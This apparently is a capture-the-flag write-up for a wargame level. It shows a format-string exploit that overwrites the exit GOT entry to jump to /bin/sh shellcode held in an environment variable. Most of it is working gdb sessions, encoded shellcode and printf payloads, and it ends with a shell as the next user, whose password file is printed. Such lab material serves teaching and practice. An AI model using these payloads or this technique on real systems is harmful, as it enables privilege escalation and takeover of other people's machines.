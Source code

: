 # Printf exploit, we will change GOT address of exit so we can jump to our shellcode

# We can't put our shellcode in our args because some characters will be changed at runtime
# Alpha characters will be lowered so \x50 in our shellcode will become \x70 (P -> p)

# I'll use an env variable to store my shellcode (SHELLCODE)

==================================================================================================================

# I put a NOPsland before my shellcode because if the stack is not starting exactly
# At the same address (difference between real env and GDB)
# We have a chance to jump in the NOPs and continuing our execution to our shellcode
env SHELLCODE=$(python -c 'print "\x90"*64+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"') gdb level05
# I unset GDB's env to be the closest to the real env
(gdb) unset env LINES
(gdb) unset env COLUMNS

# Let's find where we have to overwrite
(gdb) info func exit@plt
0x08048370  exit@plt
(gdb) x/i 0x08048370
0x8048370 <exit@plt>:	jmp    *0x80497e0
# We must overwrite 0x080497e0

# Now let's find the address we have to put in there
(gdb) x/50s *((char **)environ)
0xffffd896:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343\211\301\211°\v̀1\300@̀"
# Search where our NOPsland is starting
(gdb) x/x 0xffffd8a0
0xffffd8a0:	0x90
# We have to write 0xffffd8a0 at 0x080497e0, pretty simple right ? :)

==================================================================================================================

# Since 0xffffd8a0 is a pretty big value in decimal (4294957216), i had to print it in 2 times
(gdb) b *0x08048513
Breakpoint 1 at 0x8048513
(gdb) command 1
Type commands for breakpoint(s) 1, one per line.
End with a line saying just "end".
>x/wx 0x080497e0
>end
(gdb) r < <(python -c 'print "\xe0\x97\x04\x08"+"%x"*8+"%4294957216d"+"%hn"')
0x80497e0 <exit@got.plt>:	0x08048376
# 4294957216 is too big, no characters are print and the value is unchanged

# I had to write 0xd8a0 with %hn at 0x080497e0 then 0xffff at 0x080497e2
(gdb) r < <(python -c 'print "\xe0\x97\x04\x08"+"DEAD"+"\xe2\x97\x04\x08"+"%x"*8+"%55393x"+"%hn"+"%10079x"+"%hn"')
[...]
process 1894 is executing new program: /bin/dash

# We should be good, let's try it in a real env :)

export SHELLCODE=$(python -c 'print "\x90"*64+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
(python -c 'print "\xe0\x97\x04\x08"+"DEAD"+"\xe2\x97\x04\x08"+"%x"*8+"%55393x"+"%hn"+"%10079x"+"%hn"' ; cat ) | ./level05

whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
